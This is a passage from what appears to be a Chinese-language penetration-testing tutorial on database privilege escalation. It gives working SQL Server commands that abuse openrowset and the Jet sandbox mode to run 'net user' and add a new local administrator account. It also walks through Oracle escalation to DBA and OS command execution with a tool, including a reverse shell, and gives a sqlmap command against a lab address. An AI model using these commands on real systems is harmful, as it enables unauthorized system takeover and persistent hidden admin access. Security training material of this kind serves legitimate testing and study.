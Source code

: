 ```sql
exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines', 'SandBoxMode'
 
--执行系统命令
select * from openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net user margin margin /add")')
select * from openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net localgroup administrators margin /add")')
 
沙盒模式SandBoxMode参数含义（默认是2）
`0`：在任何所有者中禁止启用安全模式
`1`：为仅在允许范围内
`2`：必须在access模式下
`3`：完全开启
openrowset是可以通过OLE DB访问SQL Server数据库，OLE DB是应用程序链接到SQL Server的的驱动程序。
 
--恢复配置（暂不执行）
--exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',1;
--exec sp_configure 'Ad Hoc Distributed Queries',0;reconfigure;
--exec sp_configure 'show advanced options',0;reconfigure;
```
<a name="dsrp1"></a>
# 三、Oracle数据库提权演示
1、普通用户模式：<br />前提是拥有一个普通的Oracle连接账号。不需要DBA权限，可提权至DBA，并以Oracle实例运行的权限执行操作系统命令。<br />2、DBA用户模式：（自动化工具演示）<br />拥有DBA账号密码，可以省去自己手动创建存储过程的繁琐步骤，一键执行测试。<br />案例演示

![](https://cdn.nlark.com/yuque/0/2022/png/2476579/1648297734260-05b6d85f-6a6f-41a4-87f6-2dbcba05232a.png#clientId=u249298de-b33e-4&from=paste&id=u13eb2ef0&originHeight=400&originWidth=561&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=u254c8a88-c4c1-4de3-8fc2-69cf7486920&title=)<br /><2>工具连接。若账号是普通账号，选择普通模式，若账号是DBA账号，选择DBA模式。然后输入数据库相关信息，点击连接。提示payload发送成功。<br />![](https://cdn.nlark.com/yuque/0/2022/png/2476579/1648297734343-f793a60c-c527-4c93-a030-483b6143c757.png#clientId=u249298de-b33e-4&from=paste&id=ua62d7dea&originHeight=91&originWidth=645&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=u4b30680b-64d4-4833-a39a-67f703cfc9f&title=)<br />![](https://cdn.nlark.com/yuque/0/2022/png/2476579/1648297734249-61417ca5-1525-4d81-adac-2dc4e5a2c9b4.png#clientId=u249298de-b33e-4&from=paste&id=u3aed0238&originHeight=470&originWidth=656&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=u421a534e-b0a7-47e0-9b8c-4d0be41ae90&title=)<br /><3>提权成功，接下来可以任意执行命令了。<br />![](https://cdn.nlark.com/yuque/0/2022/png/2476579/1648297734246-73f3115a-6175-4425-9e7a-47389ab53b42.png#clientId=u249298de-b33e-4&from=paste&id=udd3da55a&originHeight=176&originWidth=650&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=u397c7d75-329c-4735-b7bb-7a18ea832d7&title=)<br />也可以点击文件管理，操作文件。<br />![](https://cdn.nlark.com/yuque/0/2022/png/2476579/1648297734261-c175edcd-9c0c-4b15-bb45-3f9461c302e7.png#clientId=u249298de-b33e-4&from=paste&id=u8fc1b996&originHeight=319&originWidth=652&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=u9e167d3f-f27f-47e0-a149-38062810ea4&title=)<br />还可以反弹shell。<br />![](https://cdn.nlark.com/yuque/0/2022/png/2476579/1648297735905-6e772cbe-6fdf-498b-a52c-ca3e457d37d8.png#clientId=u249298de-b33e-4&from=paste&id=ue5a67db2&originHeight=221&originWidth=653&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=u9b4619d1-9fb8-4897-9bbc-a60405f6ffa&title=)<br /><4>若没有账号密码，但是有注入点，还可以用这个工具的注入模式，进行注入提权。<br />![](https://cdn.nlark.com/yuque/0/2022/png/2476579/1648297735945-a391fe5b-ccbc-4383-afcb-683a8609aa34.png#clientId=u249298de-b33e-4&from=paste&id=ub64380ca&originHeight=71&originWidth=649&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=u470d2d83-8204-4457-8e12-a4bbd96ea82&title=)<br />3、注入提升模式：（sqlmap测试演示）<br />拥有一个Oracle注入点，可以通过注入点直接执行系统命令，此种模式没有实现回显，需要自己验证。<br />说明：对于JSP网站，当前获取到它的网站权限后，不需要提权。因为它的网站权限就是系统权限，jsp自带system。因为一般Oracle数据库会和jsp搭配使用，所以当你拥有一个注入点时，你会发现，这个注入点本身就拥有system权限。

| 1 | 命令：sqlmap.py -u http://192.168.131.142:8080/sql.jsp?id-7698 --is-dba |
| --- | --- |

![](https://cdn.nlark.com/yuque/0/2022/png/2476579/1648297735967-531e735c-6a8a-4cf2-ab5d-eea5fa468f77.png#clientId=u249298de-b33e-4&from=paste&id=u93106162&originHeight=308&originWidth=477&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=ub6725022-b846-45a9-b62a-8e7c87ec18c&title=)<br /> 
